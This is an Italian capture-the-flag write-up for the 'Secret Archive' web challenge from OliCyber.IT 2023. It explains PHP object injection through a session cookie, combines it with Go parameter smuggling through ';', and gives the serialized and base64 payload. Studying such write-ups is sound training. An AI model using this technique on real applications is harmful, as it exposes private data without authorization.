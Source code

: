 # OliCyber.IT 2023 - Competizione Nazionale

## [web] Secret Archive (1 risoluzioni)

La challenge espone un servizio php che permette di effettuare delle ricerche su un archivio di articoli, che possono essere privati o publici, il servizio PHP esegue la ricerca inviando richieste HTTP al servizio Golang che detiene l'archivio.

Il servizio Golang mostrerà solo gli articoli pubblici, salvo quando il parametro GET `debug` è settato a `true`, in questo caso verranno mostrati anche gli articoli privati.

### Soluzione

Visitando robots.txt si può notare la presenza di file di backup (.php.bak) e golang (archive/\*). Entrambi contengono il codice sorgente dei servizi.

Il servizio PHP permette di salvare le ricerche effettuate in una variabile di sessione, che viene poi serializzata e salvata in un cookie.

Durante la deserializzazione, il cookie di tipo `History` viene convertito in un oggetto PHP, la classe deserializzata è così definita:

```php
class History
{
   public $searches = array();
}
```

Oltre all'oggetto `History`, è presente anche un oggetto `Searcher` che contiene la stringa di ricerca, i risultati della ricerca e l'oggeto `History`:

```php
class Searcher {
    public $searchTerm;
    public $history;
    public $searchResults;
    ...
```

In particolare è interessante la funzione \_\_wakeup() che viene chiamata durante la deserializzazione:

```php
    function __wakeup(){
        $this->sendAnalytics();
        $this->searchResults = $this->fetchResults();
        $this->savehistory();
    }
```

All'interno di sendAnalytics(), viene fatto un json_encode senza mai controllare json_last_error()

```php
        $analytics = array(
            'search' => $this->searchTerm,
            'history' => $this->history->searches
        );
        $analytics = json_encode($analytics);
```

Mentre in fetchResults, definita così

```php
    function fetchResults() {
        $results = array();
        $client = new GuzzleHttp\Client();
        $src = sanitizeSearchTerm($this->searchTerm);
        $res = $client->request('GET', $golang_url . '?search=' . $src, array(
            'headers' => array(
                'X-Real-IP' => $_SERVER['REAL_IP']
            )
        ));
        $body = $res->getBody();
        $results = json_decode($body, false, 512, JSON_THROW_ON_ERROR);
        // check if json is valid
        if (json_last_error() !== JSON_ERROR_NONE) {
            die('Invalid JSON ' . $body);
        }

        array_push($this->history->searches, $this->searchTerm);

        return $results;
    }
```

Viene effettuata la ricerca dopo aver chiamato la funzione sanitizeSearchTerm(). Da notare che il json_decode ha il flag JSON_THROW_ON_ERROR, che lancia un'eccezione in caso di errore. Rendendo il controllo successivo inutile, e soprattutto permettendo di controllare il valore di json_last_error() tramite la funzione sendAnalytics().

La funzione sanitizeSearchTerm() è definita così:

```php
    if (preg_match('/^[0->a-z]+$/', $searchTerm)) {
        // replace
        $searchTerm = str_replace(':', '', $searchTerm);
        return $searchTerm;
    } else {
        die('Invalid search term');
    }
```

Da notare come i caratteri ; e = siano permessi.

Il servizio golang utilizza la versione 1.16, vulnerabile a [Parameter Smuggling](https://www.oxeye.io/resources/golang-parameter-smuggling-attack/) tramite il carattere `;` che viene visto come un separatore di parametri.

Mettendo insieme la vulnerabilità della versione di `net/url` di golang, con la object injection presente nel cookie di sessione, è possibile aggiungere il parametro `debug=true` alla richiesta HTTP inviata al servizio golang, e quindi visualizzare gli articoli privati.

Si può quindi effettuare una ricerca con il termine `gab;debug=true` e prendere l'articolo privato. Per stampare sulla pagina bisogna forzare un errore nel `json_encode` di sendAnalytics(), che viene chiamato prima di fetchResults(), ad esempio con un valore NAN all'interno dell'array `searches`.

### Exploit

```
O:8:"Searcher":2:{s:10:"searchTerm";s:14:"gab;debug=true";s:7:"history";O:7:"History":1:{s:8:"searches";a:1:{s:3:"key";d:NAN;}}}

ewogICJzZXNzIjogIk86ODpcIlNlYXJjaGVyXCI6Mjp7czoxMDpcInNlYXJjaFRlcm1cIjtzOjE0OlwiZ2FiO2RlYnVnPXRydWVcIjtzOjc6XCJoaXN0b3J5XCI7Tzo3OlwiSGlzdG9yeVwiOjE6e3M6ODpcInNlYXJjaGVzXCI7YToxOntzOjM6XCJrZXlcIjtkOk5BTjt9fX0iCn0=
```
